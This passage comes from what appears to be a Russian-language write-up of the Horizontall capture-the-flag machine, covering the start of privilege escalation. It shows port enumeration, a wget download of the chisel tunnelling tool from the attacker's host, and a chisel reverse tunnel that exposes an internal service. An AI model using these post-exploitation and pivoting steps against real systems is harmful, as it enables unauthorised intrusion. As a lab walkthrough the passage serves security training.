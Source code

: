 ## Повышение привелигий

```
strapi@horizontall:~/myapi$ netstat -antlp | grep LISTEN
netstat -antlp | grep LISTEN
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1835/node /usr/bin/
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

Если мы попытаемся просмотреть порты с помощью Curl, мы обнаружим что-то интересное в порте 8000, поэтому давайте выполним удаленную переадресацию портов, чтобы увидеть это из нашего браузера.

```
[kali@kali ~]$ cp /usr/bin/chisel .
[kali@kali ~]$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
...
strapi@horizontall:~/myapi$ wget http://10.10.14.243:80/chisel
wget http://10.10.14.243:80/chisel
--2022-01-09 15:18:38--  http://10.10.14.243/chisel
Connecting to 10.10.14.243:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8750072 (8.3M) [application/octet-stream]
Saving to: ‘chisel.1’

chisel.1            100%[===================>]   8.34M  7.27MB/s    in 1.1s    

2022-01-09 15:18:40 (7.27 MB/s) - ‘chisel.1’ saved [8750072/8750072]

strapi@horizontall:~/myapi$ chmod a+x chisel
```

```
[kali@kali ~]$ chisel server -p 1234 --reverse  
2022/01/09 10:03:21 server: Reverse tunnelling enabled
2022/01/09 10:03:21 server: Fingerprint agr0rkd/+jKcuiD83s9b2zKVGbRv6r07aAVo6oRGxmg=
...
strapi@horizontall:~/myapi$ ./chisel client 10.10.14.243:1234 R:8080:127.0.0.1:8000
<isel client 10.10.14.243:1234 R:8080:127.0.0.1:8000
2022/01/09 15:24:41 client: Connecting to ws://10.10.14.243:1234
2022/01/09 15:24:41 client: Connected (Latency 51.978835ms)
```
